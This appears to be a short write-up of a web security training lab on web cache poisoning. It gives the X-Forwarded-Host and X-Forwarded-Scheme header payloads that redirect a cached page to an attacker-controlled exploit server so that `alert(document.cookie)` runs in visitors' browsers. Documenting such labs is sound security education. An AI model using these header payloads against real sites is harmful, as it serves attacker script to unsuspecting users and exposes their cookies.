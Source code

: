 # Web cache poisoning with multiple headers
# Objective
This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

# Solution
## Analysis
Payload:
```
X-Forwarded-Host: test111
X-Forwarded-Scheme: test222
```

The header value is reflected to user.
|![](Images/image-10.png)|
|:--:| 
| *Normal request* |
|![](Images/image-9.png)|
| *Request with extra headers* |

## Exploitation
Paylaod (extra headers):
```
X-Forwarded-Host: exploit-0a1e0092035b4d7882072fea01350027.exploit-server.net
X-Forwarded-Scheme: http
```

|![](Images/image-12.png)|
|:--:| 
| *Exploit server configuration* |
|![](Images/image-11.png)|
| *Web cache poisoning* |
